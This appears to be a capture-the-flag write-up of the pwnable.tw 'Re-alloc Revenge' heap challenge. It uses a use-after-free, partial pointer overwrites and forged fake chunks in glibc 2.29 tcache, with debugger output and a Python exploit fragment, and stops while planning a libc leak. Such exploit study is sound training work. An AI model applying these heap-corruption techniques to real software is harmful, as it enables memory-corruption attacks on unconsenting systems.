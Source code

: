 ```yaml
---
layout: post
title:  "Pwnable.tw - Re-alloc Revenge"
date:   2025-01-14 19:59:45 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Re-alloc Revenge

```bash
$ checksec ./re-alloc_revenge
[*] '/home/itay/projects/pwnable_tw/re-alloc_revenge/re-alloc_revenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    Stripped:   No

$ file ./re-alloc_revenge
./re-alloc_revenge: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.29.so, for GNU/Linux 3.2.0, BuildID[sha1]=a93ffa9d1472955c6ee86b3c19759e6295f65f70, not stripped
```

Very similar to re-alloc challenge (also same libc) - but this time, PIE and full RELRO are enabled.

## Overview

The challenge is identical to Re-alloc, but with harsher mitigations. \
This means that as before, we have UAF, allowing us to overwrite freed chunk's metadata. 

### Write Primitive

We have the exact same write primitive as before - we can freely write into chunks metadata. This gives us arbitrary-write freely. 

### Read Primitive

The main challenge is that we don't have any leak. \
A cool trick we can do, is utilize the fact that our write primitive starts overwriting chunk's `next` pointer. 
Hence, even without a heap leakage, due to ASLR not affecting the lowermost 12 bits, we can (almost) deterministically overwrite heap addresses, by only writing their 2 LSBs (we would win at 1/16 chance, as there should be one randomized nibble). \
So by doing so, **we have arbitrary heap write primitive, without the need for any leak** - without randomization if we fall within the same `0x100` bytes scope, or with `1/16` chance for the generic heap-address case. How can we leverage this to an arbitrary read (or at least, libc leak)? \
My general idea is to start by popping libc pointers on the heap, and go on from there. The heap seems pretty empty, except for one extra chunk, the `tcache_perthread_struct`:

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x64257eba6000
Size: 0x250 (with flag bits: 0x251)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x64257eba6250
Size: 0x30 (with flag bits: 0x31)
fd: 0x64257eba6290

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x64257eba6280
Size: 0x30 (with flag bits: 0x31)
fd: 0x00

Top chunk
Addr: 0x64257eba62b0
Size: 0x20c00 (with flag bits: 0x20c00)
```

This is the first allocated chunk:

```c
# define TCACHE_MAX_BINS		64
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

Hence, a total of `64 * (1 + 8) = 0x240` bytes. 
As we can see, including the metadata, it have been allocated within a bin corresponds to size class `0x250`. \
This gives me a new idea - while we can regularly allocate only chunks within the tcache range, because we have arbitrary heap-write primitive, we can create fake chunks - having sizes outside of the tcache range. Such chunks deallocations might leave trails of their corresponding bin heads of the `main_arena` within their `fd, bk` - hence, leave trails of libc pointers within the heap. \
I've tried and eventually suceedded to create chunk that would have size class past the limit of `0x80` (in this case, `0x90`):

```python
fake_size = 0x90
    # Allocate chunks
    fake_chunk = p64(0)         # will get corrupted by next
    fake_chunk += p64(0)        # and by key
    fake_chunk += p64(0)        # prev_size
    fake_chunk += p64(fake_size | 0x1)     # new size
    alloc(p, 0, alloc_size, fake_chunk)    

    fake_next_chunk = b'A' * (fake_size - chunkSize(alloc_size) + 0x10)
    fake_next_chunk += p64(fake_size)  # prev_size, match the fake chunk
    fake_next_chunk += p64(fake_size | 0x1)
    alloc(p, 1, alloc_size, fake_next_chunk)

    # Make sure the second chunk's next is initialized to non-NULL
    free(p, 0)
    realloc(p, 1, 0, b'')

    # Overwrite 'next' LSB, so that it would point to the fake chunk
    realloc(p, 1, alloc_size, b'\x80')

    # Consume tcachebin head. Now the fake chunk is the tcache head!
    alloc(p, 0, alloc_size, p64(0))

    # We now want the 2 slots to be available. 
    # Increment size, prepare to free on different bin
    realloc(p, 1, alloc_size + 0x10, fake_chunk)
    # Return 
    free(p, 1)
    # The same for the other chunk
    realloc(p, 0, alloc_size + 0x20, fake_chunk)
    free(p, 0)

    # Consume the fake chunk, to be sent to its fake freelist!
    alloc(p, 0, alloc_size, b'B')
    # Notice - we MUST make sure its fake 'next' chunk isn't beyond top. 
    # That's why I had to forge a perfect fake next chunk for. 
    # Free it. Now libc pointers would be here!
    free(p, 0)
```

... only to recall it is still within the tcache range (but not within the fastbins T_T). \
This means that the chunk I'd like to fake should be at least `0x200` bytes (or is it `0x100` for this glibc version), such that it wouldn't fall within the tcache for sure (or alternatively - populate the unsorted bin). \
The `tcache_perthread_struct` chunk seems as a yummy target, yet recall it doesn't contains any libc pointers at all. 

At this point I've decided there are very few options in which we can pop libc pointers:

1. Rely on other heap structures. We don't have anything though, yay. Can we somehow spawn some stuff on the heap? Such as file structs?

2. Try harder to create non-tcache non-fastbin chunks. This way, upon freeing them, they would leave `fd, bk` that would point to their head within libc's main arena. But.. its hard, due to the next chunk's size checks. Because we have only 2 small allocations, we cannot forge chunks further enough to mimic the fake next chunk. 

3. Use the heap arbitrary write primitive, such that the `tcache_perthread_struct` would be considered as a legitimate chunk to-be-freed, while making sure its size class `>=0x200`. 

4. Mess with the top chunk. Exhausing it would eventually leave `fd, bk` pointers - just as a regular chunk. As mentioned, we cannot exhaust it legitimately, as we cannot make enough allocations. However, we can utilize the heap-arbitrary-write in order to overwrite its size to some very low value, hence - exhaust the top chunk. Notice that there are few mitigations regarding the top chunk, the hardest one requires it to end within a page boundary. Unfortuanately, this means we have to be able to make around ~`0x1000` bytes of allocations (as the heap is nearly empty) in order to exhaust the top chunk, and cause it to free. Because we're limited for only `2` small allocations, this probably won't work. 

Out of the proposed ideas, the only viable one seems to be option (3). 



